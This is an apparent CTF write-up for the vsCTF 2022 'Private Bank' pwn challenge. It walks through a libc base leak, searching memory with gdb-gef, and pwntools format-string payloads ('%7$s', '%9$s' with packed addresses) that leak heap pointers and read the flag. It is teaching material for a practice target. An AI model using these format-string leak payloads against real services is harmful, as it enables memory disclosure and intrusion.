 # vsCTF 2022 - Private Bank

The zip [privatebank.zip](privatebank.zip) is the file published to player and [privatebank_docker.zip](privatebank_docker.zip) is the docker & solution & source code for this challenge.

### Difficulty: Easy

### Exploit

First, let's get the address of system and calculate the libc base address:

```python
p.recvuntil(b'Hint: ')
system_addr = int(p.recvline()[:-1], 16)
libc.address = system_addr - libc.sym['system']
log.info(hex(libc.address))
```

For this challenge, we need to get the address of heap to read the flag with format string `%s`. When debuging with gdb-gef, we can get the static address of heap with command `vmmap`:

![get-static-heap-address.png](images/get-static-heap-address.png)

And use command `search-pattern` of gdb-gef (or `search` of pwndbg) to search for address of heap in libc or stack. First search for `0x55555555c0`:

![search-pattern.png](images/seach-0x55555555c0.png)

There is one address of libc contains address start with `0x55555555c0`. The offset can be calculated as:

```python
>>> 0x7ffff7fb0388 - 0x007ffff7d98000
0x218388
```

Let's try to leak that address out:

```python
payload = b'1%7$s' + p64(libc.address + 0x218388)
p.sendafter(b'Cabinet number: ', payload)

p.recvuntil(b'number: 1')
leak_stack_addr = u64(p.recv(6) + b'\x00\x00')
log.success("Leak heap: " + hex(leak_stack_addr))
```

![first-leak-heap.png](images/first-leak-heap.png)

Hm that's not heap address. Let's search for another libc or stack address. Second search of `0x55555555c1` gives no result:

![search-0x55555555c1.png](images/search-0x55555555c1.png)

Third search with `0x55555555c2`:

![search-0x55555555c2.png](images/search-0x55555555c2.png)

There are some heap address on stack. However, because we can only leak 2 times so leaking stack will be impossible. Keep searching and when we search pattern with `0x55555555c5`, there is some address in libc:

![search-0x55555555c5.png](images/search-0x55555555c5.png)

The offset for this address is:

```python
>>> 0x7ffff7fb0cc0 - 0x007ffff7d98000
0x218cc0
```

Let's try to leak that with the code above:

![second-leak-heap.png](images/second-leak-heap.png)

Nice, that's the heap address. Let's calculate the offset for that heap with address of flag (use the static address when debug with gdb-gef):

![get-offset-heap.png](images/get-offset-heap.png)

So offset is `0x2e0`. Let's get flag:

```python
heap_flag = leak_heap - 0x2e0
log.success("Heap contains flag: " + hex(heap_flag))
payload = b'%9$s1234'
payload += p64(heap_flag)
p.sendafter(b'Key: ', payload)
```

That's all for this challenge. Thanks for playing!